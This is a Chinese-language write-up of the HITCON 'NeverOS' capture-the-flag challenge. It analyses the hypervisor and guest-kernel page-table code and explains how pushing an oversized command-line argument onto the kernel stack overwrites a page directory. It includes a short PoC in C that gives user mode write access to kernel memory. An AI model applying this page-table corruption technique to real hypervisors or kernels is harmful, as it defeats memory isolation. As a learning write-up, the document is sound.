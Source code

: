# NeverOS WP

### 漏洞点

1. 在hypervisor的setup_paging函数里，首先安装了这么的页表：

   ```c
   
   #define PS_LIMIT (0x200000)
   #define KERNEL_STACK_SIZE (0x4000)
   #define MAX_KERNEL_SIZE (PS_LIMIT - 0x5000 - KERNEL_STACK_SIZE)
   #define MEM_SIZE (PS_LIMIT * 0x10)
   
     uint64_t pml4_addr = MAX_KERNEL_SIZE;
     uint64_t *pml4 = (void*) (vm->mem + pml4_addr);
   
     uint64_t pdp_addr = pml4_addr + 0x1000;
     uint64_t *pdp = (void*) (vm->mem + pdp_addr);
   
     uint64_t pd_addr = pdp_addr + 0x1000;
     uint64_t *pd = (void*) (vm->mem + pd_addr);
   
     pml4[0] = PDE64_PRESENT | PDE64_RW | PDE64_USER | pdp_addr;
     pdp[0] = PDE64_PRESENT | PDE64_RW | PDE64_USER | pd_addr;
     pd[0] = PDE64_PRESENT | PDE64_RW | PDE64_PS; /* kernel only, no PED64_USER */
   
     sregs.cr3 = pml4_addr;
     sregs.cr4 = CR4_PAE;
   ```

   PDE_PS标志位开启，说明其映射的是一个2M（0x200000）的页到0地址；这部分接下来会作为内核代码的起始地址。

   从这段代码我们可以看见，内核最大的大小只能是0x1f7000, 接下来的0x5000空间是给内核页表使用的。0~0x1000是pml，0x1000~0x2000是pdp，0x2000~0x3000是pd。

2. 然后在kvm_init里会调用setup_regs函数去初始化虚拟机运行的寄存器：

   ```c
   regs.rip = entry;
   regs.rsp = MAX_KERNEL_SIZE + KERNEL_STACK_SIZE; /* temporary stack */
   regs.rdi = PS_LIMIT; /* start of free pages */
   regs.rsi = MEM_SIZE - regs.rdi; /* total length of free pages */
   regs.rflags = 0x2;
   ```

   可以看见，RSP被设置成了MAX_KERNEL_SIZE + KERNEL_STACK_SIZE，也就是MAX_KERNEL_SIZE + 0x4000 (0x1f7000+0x4000=0x1fb000 )。

3. 然后在执行内核代码之前，会调用copy_argv将hypervisor程序的第3个之后的参数压栈：

   ```c
   copy_argv(vm, argc - 2, &argv[2]);
   ```
4. 然后内核初始化自己页表，调用init_pagetable函数:

```c
/* Maps
 *  0x8000000000 ~ 0x8002000000 -> 0 ~ 0x2000000
 */
void init_pagetable() {
  uint64_t* pml4;
  asm("mov %[pml4], cr3" : [pml4]"=r"(pml4));
  uint64_t* pdp = (uint64_t*) ((uint64_t) pml4 + 0x3000);
  pml4[1] = PDE64_PRESENT | PDE64_RW | (uint64_t) pdp; // 0x8000000000
  uint64_t* pd = (uint64_t*) ((uint64_t) pdp + 0x1000);
  pdp[0] = PDE64_PRESENT | PDE64_RW | (uint64_t) pd;
  for(uint64_t i = 0; i < 0x10; i++)
    pd[i] = PDE64_PRESENT | PDE64_RW | PDE64_PS | (i * KERNEL_PAGING_SIZE);
}
```

  `pml4[1]`代表这个1级页表所表示的空间从0x8000000000（1<<47）开始到（1<< 48）-1。

   然后可以看见  MAX_KERNEL_SIZE+0x3000（0x1fa000）的部分作为pml4的第1项，然后MAX_KERNEL_SIZE+0x4000（0x1fb000）的部分作为pml4第1项的pdp的第0项，也就是pd的起始地址。

   MAX_KERNEL_SIZE+0x4000刚好是内核栈的栈顶，也就是通过系统调用（参数压入内核栈），我们可以修改pdp的内容。

   所以，我们的目标是，添加一个页表的表项，设置其标识位，使得我们可以在用户态访问这个页表的虚拟地址，这个页表的虚拟地址被同样映射到了虚拟机的物理0地址，也就是内核的起始地址。

### 尝试

  有了思路之后，我们就开始尝试利用。

*1*    我们需要mmap一块空间，使其作为pdp的项，这个表项的内容是0x87，代表其映射的地址是物理地址0，其标识位的为`PDE64_PRESENT | PDE64_RW | PDE64_USER| PDE64_PS` 。也就是用户态可以访问这个高地址。

*2*    我们需要算出前面mmap地址所对应的内核物理地址，将这个物理地址 |   PDE64_PRESENT | PDE64_RW | PDE64_USER ，填入pdp中作为其中的一项。 （这里查找mmap物理地址的方法是查找内存中的magic number）

*3*    但是因为PIE的原因，这个内核物理地址会改变，因为需要做一定的喷射，增加命中概率。

*4*     计算表项的所对应的虚拟地址（内核空间），在用户空间修改其内容就可以修改内核。

然而经过多次的尝试，可以发现这样是不可能成功。 因为 ` pml4[1] = PDE64_PRESENT | PDE64_RW | (uint64_t) pdp; `代码限制了页表的内容是不可以被用户空间所访问的，所以改变0x3000到0x4000的页表并不会生效。

### 利用

 然后注意到很关键的一个点，就是`pml[0]中的pdp[0]的pd`我们是可以有机会修改的，只要我们能把栈往前推一个页面的大小。又因为hypervisor的命令行参数会被压入内核栈中，所以在hypervisor中加入一个页面大小的garbage参数就可以完成前面的利用效果。

  POC：

```c
#include <ctype.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <syscall.h>
#include <unistd.h>

//#define KERNEL_BASE ((char*)0xf740000000)
#define KERNEL_BASE ((char*)0x3b400000)  //hex((0xed0 >> 3)<< 21)
int main() {
  printf("Hello!\n");
  unsigned long edit = (long)KERNEL_BASE;
  char buf[22];
  syscall(0, 0, buf, 1, 0x87,0x87,0x87);
  *(long*)edit = 0xdeadbeef12345679;
  while(1){
    putchar(getchar());
    fflush(stdout);
  }
  return 0;
}
```

然后启动hypervisor:

```c
./hypervisor.elf kernel.bin ld.so ./user.elf `python -c 'print "a"*4096'`
```

### 最后

 感觉比赛的时候都没人仔细看这个题。

这个题的发现和利用需要做题人本身对操作系统中页表和地址转换的知识点比较熟悉。

感谢david942j在hitcon出了这么一个有趣的题目，让我学到了不少东西。

和操作系统搏斗比和libc搏斗有意思的多。 
